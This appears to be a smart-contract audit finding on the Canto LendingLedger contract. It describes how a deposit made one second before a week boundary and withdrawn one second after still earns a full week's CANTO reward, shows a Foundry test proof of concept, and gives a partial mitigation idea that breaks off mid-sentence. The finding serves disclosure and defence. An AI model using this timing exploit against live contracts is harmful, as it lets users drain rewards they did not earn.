 ##  \[Title\] User doesn’t have to deposit for a week into the market to get their weekly reward from the `LendingLedger`</ins>

In the `LendingLedger` contract, a user is rewarded with CANTO tokens depending on how long he has his deposit in the market. Rewards are distributed for each week during which the deposit was inside the market. However, the user can cheat this condition because we are rounding down to the start of the week, so the user can deposit at 23:59 at the end of the week and withdraw at 00:00 and still get rewarded as if he had his deposit for the whole week.

&nbsp;
### Proof of Concept
Test case for the `LendingLedger.t.sol`
```solidity
      function setupStateBeforeClaim() internal {
        whiteListMarket();
        vm.prank(goverance);
        ledger.setRewards(0, WEEK*10, amountPerEpoch);
        // deposit into market at 23:59 (week 4)
        vm.warp((WEEK * 5) - 1);
        int256 delta = 1.1 ether;
        vm.prank(lendingMarket);
        ledger.sync_ledger(lender, delta);
        // airdrop ledger enough token balance for user to claim
        payable(ledger).transfer(1000 ether);
        // withdraw at 00:00 (week 5)
        vm.warp(block.timestamp + 1);
        vm.prank(lendingMarket);
        ledger.sync_ledger(lender, delta * (-1));
    }
    function testClaimValidLenderOneEpoch() public {
        setupStateBeforeClaim();
        uint256 balanceBefore = address(lender).balance;
        vm.prank(lender);
        ledger.claim(lendingMarket, 0, type(uint256).max);
        uint256 balanceAfter = address(lender).balance;
        assertTrue(balanceAfter - balanceBefore == 1 ether);
        uint256 claimedEpoch = ledger.userClaimedEpoch(lendingMarket, lender);
        assertTrue(claimedEpoch - WEEK*4 == WEEK);
    }
```

&nbsp;
### Tools Used
Foundry

&nbsp;
### Recommended Mitigation Steps

It’s difficult to propose a solution for this exploit without major changes in the contract’s architecture. Perhaps we can somehow split the amount based on the time the sync was made inside the week, let’s say Alice’s `last_sync` was in the middle of week0, she deposited 1 ether, thus her amount for the current epoch will be 1/2 ether. However there is a caveat, how do we fill the gaps? We can’t fill them with 1/2 ether. We can use this struct though,
